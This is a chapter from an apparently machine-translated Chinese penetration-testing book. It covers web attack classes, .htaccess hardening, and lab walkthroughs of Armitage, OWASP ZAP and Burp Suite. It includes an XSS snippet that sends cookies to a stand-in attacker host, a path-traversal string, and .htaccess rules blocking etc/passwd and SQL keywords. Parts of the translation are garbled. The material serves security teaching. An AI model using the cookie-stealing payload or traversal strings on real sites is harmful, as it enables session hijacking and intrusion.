# 四、Web 应用利用

外人进入你的网络最简单的方法之一就是攻击你的网络状态。所有 Web 服务器和应用服务器最常见的攻击有三类：跨站点脚本、缓冲区溢出和 SQL 注入。作为渗透测试人员，如果可能，您必须发现并利用所呈现的漏洞。在本章中，我们将介绍三种不同的工具：Armitage、OWASP ZAP 和 Burp Suite。Armitage 是 Metasploit 框架的 GUI 前端，OWASP ZAP 是非盈利 OWASP 组织的基于 web 的 web 应用测试工具，Burp Suite 是 Portswigger 的完整 web 应用利用工具。

*   浏览网页
*   用阿米蒂奇武装自己
*   使用 OWASP ZAP 升级 Windows 服务器
*   使用 Burp 套件进行搜索和销毁

# 浏览网页

由于 web 漏洞与站点代码及其相对安全性密切相关，因此我们将首先调查 web 不安全的情况以及三大漏洞类别。此类攻击包括许多特定的漏洞攻击，通常无法通过更改`.htaccess`文件完全解决。

## Robots.txt 的概念

您可以使用`.htaccess`文件阻止对某些站点目录的访问，就像您可以使用`robots.txt`文件请求机器人忽略或不索引某些目录一样。我们一开始就使用`wget robots.txt htaccess`来了解网站所有者对搜索引擎蜘蛛隐藏了什么，并找出重写的方向。如果我们知道有一个`wp-admin`文件夹，我们可以知道立即在那里挖掘。我们还可以查找直接存储在服务器上的付费内容。在下面的`robots.txt`文件中，`unixtux`文件夹可能包含邪恶黑客可以出售的付费内容。以下是 WordPress 网站`robots.txt`的内容：

```
sitemap: http://cdn.attracta.com/sitemap/73546.xml.gz
User-agent: *
Disallow: /pscripts/
Disallow: /wp-content/
Disallow: /wp-admin/
Disallow: /unixtux/ 
Disallow: /wp-includes
Disallow: /wp-content/plugins
Disallow: /wp-content/cache
Disallow: /wp-content/themes
Disallow: /wp-includes/js
Disallow: /trackback
Disallow: /category/*/*
Disallow: */trackback
Disallow: /*?*
Disallow: /*?
Disallow: /*~*
Disallow: /*~
```

机器人被要求忽略这些目录，但基本上是出于礼貌，搜索引擎主动提供忽略这些目录。恶意软件爬行器可能会忽略隐私请求。

## htaccess 的概念

`.htaccess`是一个不可见的文件（因此是开头的点），它是 Apache Web 服务器的一部分，位于网站的`root`文件夹中。此文件是一组控件，告诉 Web 服务器将某些请求定向到何处。此文件可用于重定向某些请求，例如：

*   此文件可以维护会话
*   此文件可以将错误页面请求重定向到主页或特殊的“404 页面未找到”通知
*   此文件可以拒绝来自已知坏域或 IP 地址的访问

以下是一些例子：

```
<IfModule>
# BEGIN Ban Users
  # Begin HackRepair.com Blacklist
    RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^[Ww]eb[Bb]andit [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^Acunetix [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^binlar [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^BlackWidow [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^Bolt\ 0 [NC,OR]
    Rewrite        RewriteCond %{HTTP_USER_AGENT} ^BOT\ for\ JCE [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^casper [NC,OR]Cond %{HTTP_USER_AGENT} ^Bot\ mailto:craftbot\@yahoo\.com [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^BOT\ for\ JCE [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} ^casper [NC,OR]
# END Ban Users
# BEGIN Tweaks
  # Rules to block access to WordPress specific files
    <files .htaccess>
    Order allow,deny
    Deny from all
    </files>
    <files readme.html>
    Order allow,deny
    Deny from all
  </files>
  <files readme.txt>
    Order allow,deny
    Deny from all
  </files>
</IfModule>

<IfModule mod_rewrite.c>
      RewriteEngine On

      # Rules to protect wp-includes
      RewriteRule ^wp-admin/includes/ - [F]
      RewriteRule !^wp-includes/ - [S=3]
      RewriteCond %{SCRIPT_FILENAME} !^(.*)wp-includes/ms-files.php
      RewriteRule ^wp-includes/[^/]+\.php$ - [F]
      RewriteRule ^wp-includes/js/tinymce/langs/.+\.php - [F]
      RewriteRule ^wp-includes/theme-compat/ - [F]

      # Rules to prevent php execution in uploads
      RewriteRule ^(.*)/uploads/(.*).php(.?) - [F]

      # Rules to block unneeded HTTP methods
      RewriteCond %{REQUEST_METHOD} ^(TRACE|DELETE|TRACK) [NC]
      RewriteRule ^(.*)$ - [F]

      # Rules to block suspicious URIs
      RewriteCond %{QUERY_STRING} \.\.\/ [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*\.(bash|git|hg|log|svn|swp|cvs) [NC,OR]
      RewriteCond %{QUERY_STRING} etc/passwd [NC,OR]
      RewriteCond %{QUERY_STRING} boot\.ini [NC,OR]
      RewriteCond %{QUERY_STRING} ftp\:  [NC,OR]
      RewriteCond %{QUERY_STRING} http\:  [NC,OR]
      RewriteCond %{QUERY_STRING} https\:  [NC,OR]
      RewriteCond %{QUERY_STRING} (\<|%3C).*script.*(\>|%3E) [NC,OR]
      RewriteCond %{QUERY_STRING} mosConfig_[a-zA-Z_]{1,21}(=|%3D) [NC,OR]
      RewriteCond %{QUERY_STRING} base64_encode.*\(.*\) [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*(%24&x).* [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*(127\.0).* [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*(globals|encode|localhost|loopback).* [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*(request|concat|insert|union|declare).* [NC]
      RewriteCond %{QUERY_STRING} !^loggedout=true
      RewriteCond %{QUERY_STRING} !^action=jetpack-sso
      RewriteCond %{QUERY_STRING} !^action=rp
      RewriteCond %{HTTP_COOKIE} !^.*wordpress_logged_in_.*$

      # Rules to block foreign characters in URLs	RewriteCond %{QUERY_STRING} ^.*(%0|%A|%B|%C|%D|%E|%F).* [NC]
      RewriteRule ^(.*)$ - [F]

      # Rules to help reduce spam
      RewriteCond %{REQUEST_METHOD} POST
      RewriteCond %{REQUEST_URI} ^(.*)wp-comments-post\.php*
      RewriteCond %{HTTP_USER_AGENT} ^$
    </IfModule>
# Custom error document redirects

ErrorDocument 400 /wp-content/plugins/bulletproof-security/400.php
ErrorDocument 401 default
ErrorDocument 403 /wp-content/plugins/bulletproof-security/403.php
ErrorDocument 404 /404.php
ErrorDocument 405 /wp-content/plugins/bulletproof-security/405.php
ErrorDocument 410 /wp-content/plugins/bulletproof-security/410.php
```

为了保持纵深防御，您必须对站点实施尽可能多的自动抵抗，但您将无法通过`.htaccess`阻止许多跨站点脚本攻击、SQL 注入攻击或缓冲区溢出攻击。

## 跨站点脚本的快速解决方案

跨站点脚本编写基本上是由来自浏览器的无效、未转义输入引起的。要阻止它在 Windows 应用服务器上发生，必须创建与应用体系结构配合使用的验证规则。OWASP 前 10 名主动式控制文档（[https://www.owasp.oimg/5/57/OWASP_Proactive_Controls_2.pdf](https://www.owasp.oimg/5/57/OWASP_Proactive_Controls_2.pdf) 显示了您可能正在利用应用的几种语言的查询参数化示例。下面是 C#.NET 的一个示例：

```
string sql = "SELECT * FROM Customers WHERE CustomerId = @CustomerId";
SqlCommand command = new SqlCommand(sql);
command.Parameters.Add(new SqlParameter("@CustomerId", System.Data.SqlDbType.Int));
command.Parameters["@CustomerId"].Value = 1;
```

XSS 可能会有许多不同的攻击，从轻微的站点破坏到会话劫持。下面是会话 hi 的一个示例。

```
'<script>
var img = new Image();
img.src="http://EvilHax0r.com?" + document.cookie;
</script>'
```

作为一名安全工程师，您可能需要展示攻击漏洞的漏洞代码示例，但您希望利用人员能够处理易受攻击页面的缓解代码。

## 减少缓冲区溢出

任何可以由用户填写的表单字段，或者对用户隐藏并包含会话信息的表单字段，都可能溢出，除非它被参数化并且可以安全地处理多余的数据。当您查看 web 日志时，您可能会看到一个超长 URL，该 URL 以以下内容结尾：`http://,your-domain.cimg/../../../../../../../../../../%WINDOWS%/%system%/<something-useful-to-hackers>`。这是一个非常简单的命令，用于将`cd`复制到 Windows 文件夹中的系统文件。Web 服务器尝试在 URI 中隐式解析命令，并备份到驱动器分区根目录，然后前进到 Windows 目录。请注意，您可以通过在同一驱动器分区上不使用 Web 服务器来阻止此操作。如果`inetpub`文件夹位于`r:`驱动器上，则攻击者很可能“没有准备好更换驱动器”。但是，这将不再适用于 Windows Server 的默认安装，因为操作系统将不允许直接远程访问 Web 服务器用户。您不能保证对另一个文件夹的访问会得到很好的保护。

为了减少缓冲区溢出，当破解程序试图使内存中堆的数据堆栈溢出时，字段必须以安全的方式失败。在前端，您可以在每个字段上设置参数，这些参数是用 HTML 代码、JavaScripting 或其他一百种方法创建的，尽管这些方法看起来简单快捷，但客户端代码并不安全。它可以改变。仔细的参数化可能会在瞬间消失。您需要让利用人员编写服务器端代码，以保护站点不受缓冲区溢出的影响。服务器端验证代码更难从远程位置访问和修改。

## 避免 SQL 注入

SQL 注入是一种攻击，它试图将意外的数据库命令直接放入 web 应用的数据库中。推送到数据库的意外命令可以修改内容，包括删除数据。它会感染数据库，并将感染推给用户。它可以让邪恶的黑客窃听数据库中的每一笔交易。它可以让攻击者在主机上运行操作系统命令。根据代码的不安全程度，您的数据库可能会被自动工具多次成功地攻击。您需要检查您的应用，以确定利用框架是否使用自动向表单字段添加参数并执行静态代码检查的**对象关系模型（ORM）**。

*   OWASP SQL 注入准备备忘单中针对 SQL 注入的三种防御措施可在网上找到（[https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet) ）。同时使用这三个。

    *   在可能的情况下，只使用准备好的输入，例如选择列表或单选按钮，因此用户的选择数量较少，并且以编程方式只允许非常小的一组 SQL 语句作为输入。例如，如果表单字段请求用户所在的美国州，则可能会有州名称和代码的选择列表。通过对照静态列表测试输入，只允许特定的条目集。任何其他条目都应导致表格被拒绝。不允许可能返回意外结果的通配符查询。
    *   参数化字段，以便在内容进入数据库之前对其进行测试。字段的内容不能超过指定的值，并且字符只能是特定类型。例如，将电话号码分解为国家代码、区号和电话号码。这三个新字段只能包含数字，前两个字段可以与已知的可能性列表进行比较。
    *   以编程方式逃逸一切。转义字符时，将删除该字符中的任何命令含义，并将其替换为文字 ASCII 值。任何用户提供的数据都应该以编程方式进行检查，以减少可以通过 SQL 注入运行的直接 SQL 命令的数量。每个数据库管理系统都有自己的转义模式。我们将把它作为一个练习留给利用人员，让他们找到并实现对 web 应用有意义的转义方法。在微软的 SQL Server 中，您可以使用内置命令`QUOTENAME`，删除单个字符和长度不超过 128 个字符的字符串，以及`REPLACE`对任意长度的字符串进行转义。

# 用阿米蒂奇武装自己

**Armitage**是 Metasploit 的 GUI 前端，我们可以使用它对目标 Windows 用户进行各种攻击。由于这是 Metasploit 以前从未运行过的新安装，我们从错误和`setup`开始。第一个示例是当 Armitage 尝试启动 Metasploit 服务时，postgresql 未启动引发的错误：



由于这是 Kali Linux 2.0，我们将尝试使用以下命令启动 postgresql server：

```
/etc/init.d/postgresql start

```

成功启动 postgresql 后，我们也启动了 Metasploit 控制台，然后从终端窗口启动 Armitage，这样我们就可以在标准输出出现时观察它。阿米蒂奇的窗口花了相当长的时间才打开，有几分钟，Metasploit 服务似乎不让我们打开阿米蒂奇。



它出现后的第一步是加载漏洞攻击，如下图所示。您有两种选择：**查找攻击**和**冰雹玛丽**。如果您选择**冰雹玛丽**，系统将向所有可能的目标投掷其拥有的一切。如果您选择**查找攻击**，每个目标的可能攻击将出现在它旁边。我们正在选择查找攻击路径。玛丽的戏剧非常吵闹。使用 Armitage 工具的专家的一个标志是所需漏洞的规范，而不仅仅是将所有东西都扔到目标网络上。



现在我们准备选择目标！


## 与单个已知主机一起工作

我们可以从列表中导入主机，执行 NMap 扫描并发现它们，或者手动添加主机。因为我们现在只有一个目标，所以我们将手动输入主机。



现在我们有了主机，我们可以添加操作系统版本，看看阿米蒂奇能想出什么。我们知道它是 Windows7，我们知道它有一个 Web 服务器。


在第一个对话框中，我们通过右键点击主机，点击操作系统上方的**服务**和**扫描**按钮，它给了我们一个正在运行的 Metasploit 端口扫描。当您点击服务扫描上的刷新按钮时，会显示端口**139**、**80**和**445**在**Microsoft IIS 7.5**运行和**Windows 7 Professional SP1（build 7601）**打开。


我们没有为此测试创建工作区，因为工作区函数似乎没有按预期工作。当我们运行**攻击****查找攻击**菜单项时，它在右键单击目标机器时创建了一个额外的菜单。这打开了该特定计算机操作系统和已知开放端口可用的所有攻击的列表。我们为下图选择了**iis**，并在**检查漏洞利用下运行命令。。。**。

输出表明目标机器不易受到这些攻击的影响。这当然可以在搜索要运行的良好漏洞时节省时间。



HTTP 攻击列表中有 132 个可能的漏洞，您必须记住，这是 iis 的默认实例，只有一个静态页面。iis 的自定义或辅助应用太少，不太可能直接利用。当您检查这么多漏洞的可行性时，只需使用键盘快捷键*Ctrl*+*F*打开一个搜索工具。


## 使用 NMap 发现新机器

如果我们得到一个黑盒测试，我们知道要测试的网段，但不知道具体的主机，该怎么办？使用 Metasploit 的扫描仪或链接的 NMap 扫描运行测试更快。下面使用 NMap 综合扫描。这比在特定服务器上进行外科手术更容易发现，因此最好在网络流量很大时运行此操作。周一早上 9:30 左右应该会很忙，因为人们会进入办公室，开始检查他们的邮件等等。


当您选择 NMap Comprehensive 时，将打开一个对话框，询问您选择 IP 或范围。我们正在选择`192.168.56.0/24`网络范围，以获得我们期望的整个 C 类网段。我们选择测试机 IP 出现在网络上的 CIDR。如果这是一个更大的部分，我们将错过一些主机。如果您发现在`192.168.56.1`-`192.168.56.255`范围内没有主机，您可以减少/CIDR 号。如果目标网络的内部网络使用公共 IP，或者使用 A 或 B 类专用 IP 范围，则可以减少/CIDR 号。


作为一个内存慢跑器，在 IP 版本 4 中，引入了**无类域间路由**（**CIDR**，以减少有限数量的可用 IP 地址的浪费。CIDR 编号是子网掩码中的位数。在理论中，CIDR 数可以小于 8，这是 a 类网络的比特数。从 C 类网络中预期的 254 台可能的主机开始，每次将 CIDR 数量减少 1 时，可能要扫描的主机数量就会增加一倍。要扫描 1700 万台主机的 A 级网络可能需要相当长的时间。这是你永远不想这么做的原因之一。

现在我们的 NMap 扫描已经完成，让我们看看我们的主机。我们目前有以下几位主持人：

*   卡利攻击平台：`192.168.56.101`
*   Windows 工作站：`192.168.56.102`
*   Windows Server 2012:`192.168.56.103`

在本章中，我们将讨论 Windows Server 2012 上的 Web 服务器。



有几十种可能利用 HTTP 的漏洞，四种可能利用 IIS 的漏洞。最简单的方法是检查哪些漏洞利用有机会在此 Web 服务器上工作。由于只有四个 IIS 漏洞，我们将首先检查这些漏洞。



每个列表中最后一项是指向**检查****漏洞利用的链接。。。**，所以我们现在就开始。



IIS 检查的结果是主机不可利用，因此我们必须追踪 HTTP 攻击和 mssql 注入攻击。这台机器有几个可能的漏洞，但在大多数情况下，应用被证明是困难的。我们在辅助网络上有另一个 Windows Web 服务器。我们可以把它的笼子弄得嘎嘎作响。下一个图像是注入漏洞**ms09_004_sp_replwritetovarbin_sqli**的设置对话框。


以下图像是攻击 Microsoft SQL Server 的漏洞：`exploit/windows/mssql/ms09_004_sp_replwritetovarbin_sqli`。


# 使用 OWASP ZAP 升级 Windows 服务器

**OWASP ZAP**是一个测试网站漏洞的 GUI 界面，使用 ZAP 生成的详细信息，您可以在您的目标机器或网络上的机器上找到可能的攻击向量。我们使用一台内部实验室机器和公共互联网上的两台机器查找漏洞和漏洞。第一次启动 ZAP 时，您将看到他们的 Apache 许可证，您必须接受。许可证提到，您不得使用 ZAP 扫描您无权访问的机器或站点。扫描您无权访问的站点是不合法的，如果我们发现您未经允许扫描我们的测试站点，我们将不会感到好笑。我们可能会考虑允许你扫描网站的许可，但你必须问 AutoT3。



下一个对话框是关于您是否希望使用或继续使用会话 ZAP 的问题。Persist 是一种奇怪的方式来描述你第一次使用 ZAP，但这就是你被问到的。我们将把会话命名为`generic-corp=ws2K12-01`，因为它是 Windows web 服务器的会话。


点击对话框上的按钮**开始**打开文件保存对话框。我们将创建一个名为`ZAP`的文件夹，并将文件放入该文件夹中。



最后，我们看到主对话框及其几个位置和选项卡。我们将首先在名为**URL 的字段中键入一个 URL 来攻击：**。


IP`http://192.168.56.103`是我们的小型 Windows Server 2012 实验室计算机。



测试框上没有太多数据，但不管它有什么问题，我们都可以从 ZAP 对话框中看到。注意，在下图中，ZAP 显示了主动攻击，该攻击正在测试许多漏洞。



我们可以继续从攻击平台上搜索问题，但还有另一种使用 ZAP 的方法。

## 使用 ZAP 作为攻击代理

ZAP 作为一个独立的工具工作得很好，但当用作代理时，它甚至更好。您可以使用 Firefox，或者在本例中使用 Iceweasel 作为您的攻击控制面板，并通过 ZAP 运行所有流量。单击按钮以获取 Firefox 扩展。



按钮打开 Firefox/Ice Weasel 中的本地窗口。


点击**点击设置！**按钮。您将从 Ice Weasel 获得标准安装成功对话框。



接下来，您将获得一个对话框，询问您是否希望将该站点启用为 Blug-n-Hack 提供商。您必须接受您正在设置中间人代理，您可以使用该代理拦截和修改浏览器的所有流量。


现在，您已经准备好使用 Plug-n-Hack 和使用 ZAP 扩展的 ZAP。



接下来的两幅图像是 Plug-n-Hack（PNH）和 OWASP ZAP 的帮助屏幕。我们将在本节的其余部分使用 ZAP 命令。



ZAP 命令使用起来非常简单。我们将运行一个 HTTP 会话并在几个站点上爬行。这些是属于我们的网站，我们不允许您攻击/测试我们的网站。请自己测试！



我们将从对本地实验室 Windows Server 2012Web 服务器进行爬网开始。**Spidering**收集测试站点中可用的所有数据和页面名称。目前，它的数据库连接似乎有点问题。



接下来，我们将尝试爬行我们的站点`http://30309.info`。发生了什么事？通知显示我们无法使用`3039.info`。您必须非常小心，不要扫描您不拥有或拥有所有者允许测试的网站。我们提前知道`3039.info`上什么都没有，但如果那里有什么呢？您可能会得到执法人员的访问，或者您可能会发现您的 IP 被阻止（“黑洞”）。


通过检查，很明显 URL 中有一个输入错误，因此爬行失败。让我们试试我们的网站，[http://syswow.com](http://syswow.com) 。我们转到站点，然后启动 spider 命令。


## 读取 ZAP 接口

回顾 ZAP 界面，很明显已经发生了很多事情。我们测试的所有站点都产生了大量数据。首先要看的是跨站点脚本漏洞（XSS）。所有这些站点上都存在 XSS 漏洞，在大多数情况下，有几十个易受攻击的页面！



当您完成 ZAP 扫描后，您可以将报告生成为 XML 输出或 HTTP 输出。任何一种输出都很容易使用公司徽标或扩展文本进行自定义。



# 使用打嗝套件进行搜索和销毁

您可以通过**应用**菜单轻松访问打嗝套件。如果它不在**收藏夹**面板中，可以在**Web 应用分析**子菜单下找到，如 OWASP ZAP。


**Burp Suite**是一个功能强大的 web 应用测试框架。Burp Suite 是许多应用安全测试人员的最爱，它有几个用选项卡标记的部分：

<colgroup><col> <col> <col> <col></colgroup> 
| 

打嗝套件工具

 |
| --- |
| **页签** | **目的** | **页签** | **目的** |
| 目标 | 设置测试主题 | 扫描仪 | 扫描域中的漏洞 |
| 代理 | 使用 Burp 套件作为代理服务 | 蜘蛛 | 使站点内所有文件的站点地图都可访问 |
| 中继器 | 在会话中多次发送单个数据包 | 入侵者 | 发现并利用异常漏洞 |
| **打嗝套件实用程序和工具配置** |
| **页签** | **目的** | **页签** | **目的** |
| 比较器 | 用于比较任意两个字符串 | 测序器 | 测试会话令牌的随机性 |
| 译码器 | 用普通语言字符串替换编码字符串 | 扩展器 | 创建您自己的自定义插件，用于复杂或多步骤的利用 |
| 选择权 |   | 警报 |   |

在本章中，我们将深入探讨三种工具：

*   瞄准
*   设置代理
*   对目标站点进行爬网

## 针对受试者

点击**目标**选项卡，然后在该窗口内选择**范围**选项卡。您可以添加一系列 IP、单个 IP 或**完全限定域（FQDN）**。对于本例，我们选择了一个 IP 范围。



我们可以排除某些 IP，在这种情况下，我们排除`10.0.0.1`的网关设备和`10.0.0.7`的 Kali Linux 平台。您的客户可能希望您排除各种机器，但要获得漏洞的有效测试，您需要测试所有东西。如果有一台易受攻击的机器与您的测试机器在同一段上，那么忽略它也不会降低易受攻击性。

## 使用打嗝套件作为代理

你要做的第一件事就是侦察目标的分析。为此，我们将转到**代理**选项卡。代理功能，就像 OWASPZAP 工具的代理功能一样，在 Kali Linux 平台上的浏览器和正在测试的站点之间充当中间人的角色。

Burp Suite 在 IPv4 环回的 8080 端口打开一个**代理****侦听器**。如果其他应用正在使用此端口，Burp Suite 将发送警报。您可以使用代理侦听器选项设置不同或其他侦听器。

您必须将浏览器设置为在浏览器配置中使用 Burp Suite 代理。在本例中，我们使用默认的 Ice Weasel 浏览器。



当你把 AuthT0p 代理放在浏览的中间时，它会导致站点 Ty1 T1 用完美的 TLS 证书生成一个不可信的警报。如果您将 Burp Suite 证书设置为已接受，则更容易理解数据。


### 安装 Burp 套件安全证书

在浏览器中，当 Burp Suite 运行时，输入[http://burp 地址栏中的](http://burp)。这将打开一个由 Burp 生成的本地页面，您可以在其中获取自定义的安装 CA 证书。



为了整洁起见，请将证书保存到您的`/root/.ssh/`文件夹中。这将使以后更容易找到。如果您发现没有名为`.ssh`的隐藏目录，您可以使用`mkdir ~/.ssh`创建它，也可以通过键入`ssh-keygen`创建您自己的 Kali Linux SSH 密钥集，这将创建文件夹以将新密钥放入其中。

保存新 CA 证书后，请转到**冰鼬偏好****高级****证书**选项卡。点击**查看证书**，打开证书管理器。选择**权限**选项卡，点击**导入**按钮。



导航到您的`/root/.ssh`文件并选择新的`cacert.der`文件。



这将打开一个对话框，您可以使用证书识别网站、电子邮件用户或软件利用人员。你可以同时选择所有三个，但在这种情况下，我们只是使用它来识别网站。



要检查并查看代理是否正确设置，请尝试转到 HTTP 站点。然后，回到您的打嗝套件窗口。该窗口中的**代理**选项卡和**截取**选项卡均应高亮显示，并且显示屏中应显示一些站点信息。在这种情况下，我们回到了`http://30309.info.`



目前，我们还没有采取任何公开行动来测试该网站。我们准备试试这个。正如您可能已经注意到的，我们的 Plug-N-Hack 工具也可用于 Burp 套件代理。这似乎没有得到充分的支持，所以我们暂时不讨论它，并将在本书的下一版中讨论它。

## 用打嗝蜘蛛爬行一个部位

点击**卡盘**选项卡。因为我们的内部范围非常有限，所以我们将对`http://30309.info`站点进行爬虫。为此，我们必须设置一个自定义范围。要做到这一点，只需点击**使用自定义范围**并将站点添加到范围中。



我们也可以从新的 spidering 范围中排除条目，但是我们将只保留 C 类网络，即使它可能不会产生太多有用的数据。要启动卡盘，只需点击**卡盘暂停**按钮。这样做会将按钮文本更改为**Spider 正在运行**。

蜘蛛在浏览网站上的许多页面时触发了网站的安全功能。这对我们来说是个好消息，因为现场防御系统正在按预期工作。蜘蛛会自动记录要填写的表单，并要求可能的登录凭证，将允许它在站点中深入挖掘。



这是一个好迹象，但您可以减慢爬行器的速度，这样它就不会触发安全响应。例如，您可以在手动浏览站点时被动地爬行站点。很明显，对你的网站进行良好的安全控制会使调查网站或让邪恶的黑客接管你的网站变得更加困难。

# 总结

在本章中，您学习了应用测试的基础知识和三种最常见的应用利用类型。您还学习了如何设置和运行 Armitage、OWASP ZAP 和打嗝套件。关于对 web 应用的攻击还有很多需要了解的内容，我们希望在将来对这个主题做更多的工作。

在下一章中，您将处理**嗅探**和**欺骗**，这是可以添加到攻击网站和 web 应用的工具带中的有用工具。